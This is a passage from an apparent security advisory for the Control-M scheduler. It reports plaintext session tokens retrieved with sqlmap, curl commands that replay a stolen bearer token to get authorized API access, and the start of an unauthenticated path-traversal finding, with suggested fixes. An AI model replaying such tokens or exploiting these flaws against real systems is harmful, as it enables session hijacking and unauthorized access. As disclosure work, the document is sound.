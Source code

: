 Suggested fix: have a minium length of 12 as well as complexity requirements.


HIGH: Session tokens are stored in plaintext in the database
============================================================
The tokens used to authenticate user are stored in plaintext in the table ```active_users```.

Example record retrieved using sqlmap (some values have been redacted):
```
authname,hostname,klive_ts,logon_ts,username,clientver,usertoken,authgroups,clienttype,internaltype,additionaldata,grpsauthrecord,systemusername,timeoutseconds,userauthrecord,alternateusertoken
<username>,<fqdn>,690287668,690274165,<username>,9.0.20.200,54BAE11F47BE4D48690EC00F5788551594C0B96D8B8F96B5D562EFA1802B4A91BB2F98F50152DD16D741E6C667EB47620452529DB2B436BBEF2F02FFC81CBA95,AdminGroup,GUI,NA,<blank>,base64:eyIxIjp7ImxzdCI6WyJyZWMiLDEseyI...,emuser,600,base64:eyIxIjp7InJlYy...,54BAE11F47BE4D48690EC00F5788551594C0B96D8B8F96B5D562EFA1802B4A91BB2F98F50152DD16D741E6C667EB47620452529DB2B436BBEF2F02FFC81CBA95
```

Using this token, the user session can be hijacked to access all URLs:
```
curl -i -k 'https://xx.xx.xx.xx/ControlM/rest/site-customizations' && echo
HTTP/1.1 401
{
  "error": "No login information was provided"
}

curl -i -k 'https://xx.xx.xx.xx/ControlM/rest/site-customizations' -H 'Authorization: Bearer 54BAE11F47BE4D48690EC00F5788551594C0B96D8B8F96B5D562EFA1802B4A91BB2F98F50152DD16D741E6C667EB47620452529DB2B436BBEF2F02FFC81CBA95' && echo
HTTP/1.1 200
[
  {
    "id": 1000,
    "name": "Full view (includes Planning, Monitoring, MFT, Tools)",
    "description": "Includes all of the domains and their elements selected by default. You cannot delete or edit this user view.",
    "createdTime": "2019-01-01T17:01:15.000Z",
    "username": "",
    "enabled": false
  },
...
```

Suggested fix: The bearer token mechanism here seems ill-suited to communicate with backends, this is generally done using JWT (stateless) or sessions (stateful). As it is equivalent to a password, if the bearer token is stored server-side it should be hashed (or kept in memory). In this case the authentication scheme will probably need to be adapted to include the username. Or it could be replaced altogether.

HIGH: Unauthenticated file write and path traversal
===================================================
The POST handler of the ```/apps``` endpoint of the Application Integrator service constructs a path using the variable ```Name``` from the user's request. It does so before checking the user's authentication.
